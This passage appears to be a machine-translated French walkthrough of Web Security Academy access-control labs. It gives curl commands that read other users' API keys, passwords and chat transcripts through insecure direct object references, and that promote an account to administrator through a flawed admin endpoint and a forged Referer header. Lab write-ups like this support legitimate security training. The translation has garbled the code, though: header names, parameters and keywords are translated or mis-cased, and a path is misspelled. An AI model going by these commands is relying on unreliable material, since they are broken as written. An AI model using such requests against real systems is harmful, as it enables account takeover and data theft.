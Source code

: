 

divulguée dans le corps d'une réponse de redirection.

Pour résoudre le laboratoire, obtenez la clé API pour l'utilisateur Carlos et soumettez-le comme solution.

Vous pouvez vous connecter à votre propre compte en utilisant les informations d'identification suivantes: Wiener: Peter
`` '
curl -s "https://id.web-security-academy.net/my-account?id=carlos" \
-H "Cookie: Session = ..." | \
grep "clé API"
`` '
### laboratoire: ID utilisateur contrôlé par paramètre de demande avec divulgation de mot de passe

Ce laboratoire a une page de compte utilisateur qui contient le mot de passe existant de l'utilisateur actuel, pré-rempli dans une entrée masquée.

Pour résoudre le laboratoire, récupérez le mot de passe de l'administrateur, puis utilisez-le pour supprimer l'utilisateur Carlos.

Vous pouvez vous connecter à votre propre compte en utilisant les informations d'identification suivantes: Wiener: Peter 

Obtenez le mot de passe de l'administrateur
`` '
curl -s "https://id.web-security-academy.net/my-account?id=administrator" \
-H "Cookie: Session = ..." | \
grep "mot de passe"
`` '
### laboratoire: références d'objets directs non sécurisés

Ce laboratoire stocke les journaux de chat utilisateur directement sur le système de fichiers du serveur et les récupère à l'aide d'URL statiques.

Résolvez le laboratoire en trouvant le mot de passe pour l'utilisateur Carlos et en vous connectant à son compte. 

`` '
curl -s "https://0ae70075034194f2809358d200fa0033.web-security-academy.net/download-transcript/1.txt" \
-H "Cookie: Session = cuut5ihhd8huytljix1jvwmjxxlfkeb" | \
grep "mot de passe"
`` '
### laboratoire: processus en plusieurs étapes sans contrôle d'accès sur une étape


Ce laboratoire dispose d'un panneau d'administration avec un processus en plusieurs étapes défectueux pour modifier le rôle d'un utilisateur. Vous pouvez vous familiariser avec le panneau d'administration en vous connectant en utilisant l'administrateur des informations d'identification: admin.

Pour résoudre le laboratoire, connectez-vous en utilisant les informations d'identification Wiener: Peter et exploitez les contrôles d'accès défectueux pour vous promouvoir pour devenir administrateur. 
`` '
CURL -X POST "https://id.web-security-academy.net/admin-rales" \
-H "Hôte: id.web-security-academy.net" \
-H "Cookie: session = admin_cookie_here>" \
-H "Content-Type: application / x-www-form-urlencoded" \
--Data-RAW "Action = mise à niveau et confirmé = true & username = wiener"
`` '
### laboratoire: contrôle d'accès basé sur les références

Ce laboratoire contrôle l'accès à certaines fonctionnalités d'administration en fonction de l'en-tête du référence. Vous pouvez vous familiariser avec le panneau d'administration en vous connectant en utilisant l'administrateur des informations d'identification: admin.

Pour résoudre le laboratoire, connectez-vous en utilisant les informations d'identification Wiener: Peter et exploitez les contrôles d'accès défectueux pour vous promouvoir pour devenir administrateur. 
`` '
Curl "https://id.web-security-academy.net/admin-rales?username=wiener&action=upgrade" \
-H "Cookie: session = wiener_cookie_here>" \
-H "Référer: https://0a11000c03d1c5f7822a97d5008200ce.web-security-academy.net/admin"
`` '